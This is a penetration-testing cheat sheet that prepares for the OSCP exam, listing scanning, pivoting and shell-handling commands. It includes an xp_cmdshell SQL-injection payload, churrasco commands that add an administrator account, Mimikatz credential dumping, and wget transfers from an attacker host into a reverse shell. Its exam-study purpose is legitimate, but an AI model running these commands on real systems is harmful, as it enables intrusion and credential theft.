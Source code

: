 # JustTryHarder
Just Try Harder and pass the OSCP!



Active Directory & Domain Controllers
----------------
- http://web.archive.org/web/20141004091538/http://www.slaughterjames.com/blog/2012/10/23/hacking-a-domain-controller-part-1-enumeration.html

- http://web.archive.org/web/20160417135414/http://www.slaughterjames.com/blog/2012/10/30/hacking-a-domain-controller-part-2-easy-pwnage.html

DNS - Zone Transfers
----------------
host -t axfr test.local 10.10.10.10

host -l test.local 10.10.10.10

File Transfers
----------------
Wget Transfer
How to retrieve file(s) from host (inside a reverse shell)

	1. Place file you want transferred in /var/www/html/
	2. # service apache2 start
	3. # wget http://10.10.10/pspy64 <- for single file
  	4. # wget -r http://10.10.10.10/pspy64/ <- for folder

MSSQL
----------------
- EXEC master..xp_cmdshell 'whoami';
- meh' exec master..xp_cmdshell 'whoami' --

Priv Esc - Linux
----------------
- grep -Ri 'password' .
- find / -perm –4000 2>/dev/null
- find / -user root -perm -4000 -exec ls -ldb {} \;

Priv Esc - Windows
----------------
 - c:\Inetpub>churrasco -d "net user /add <username> <password>"
 - c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
 - c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

Post Exploitation
----------------
- Mimikatz.exe (run it)

- privilege::debug

- sekurlsa::logonpasswords

Port Scanning
----------------
reconnoitre -t 10.10.10.10 -o . --services --quick --hostnames

nmap -sT -sU -p- --min-rate 10000
nmap -sT -sU -p <open ports seperated by ,'s> -A
obviously drop -sU if no UDP ports are open
- TCP
nmap -p- -iL ips.txt > AllTCPPorts.txt 
 
- UDP (can take hours so maybe netstat is a better alternative)
nmap -p- -sU -iL ips.txt > udp.txt 
nmap -sU -sV -iL ips.txt > alludpports.txt 
 
- SNMP
nmap -p161 -sU -iL ips.txt > udp.txt  (cmd could be wrong, double check)
 
- SSH
nmap --script ssh2-enum-algos -iL ips.txt > SSH.txt 
 
- SSL
nmap -v -v  --script ssl-cert,ssl-enum-ciphers,ssl-heartbleed,ssl-poodle,sslv2 -iL ips.txt > SSLScan.txt 

Pivoting
----------------
sshuttle -r user@10.10.10.10 10.1.1.0/24

Shell Upgrading
----------------
- In reverse shell

1. python -c 'import pty; pty.spawn("/bin/bash")'
2. Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)

Show listening ports
----------------
- Linux netstat syntax
	1. netstat -tulpn | grep LISTEN

- FreeBSD/MacOS X netstat syntax
	1. netstat -anp tcp | grep LISTEN
	2. netstat -anp udp | grep LISTEN
	
- OpenBSD netstat syntax

	1. netstat -na -f inet | grep LISTEN
	2. netstat -nat | grep LISTEN

- Nmap scan syntax
	1. sudo nmap -sT -O localhost
	2. sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
	3. sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

SMB - Impacket
----------------
- Impacket's PSEXEC
/usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)

[*] Trying protocol 445/SMB...

- Impacket's SMBServer
cd /usr/share/windows-binaries
python /usr/share/doc/python-impacket/examples/smbserver.py a .


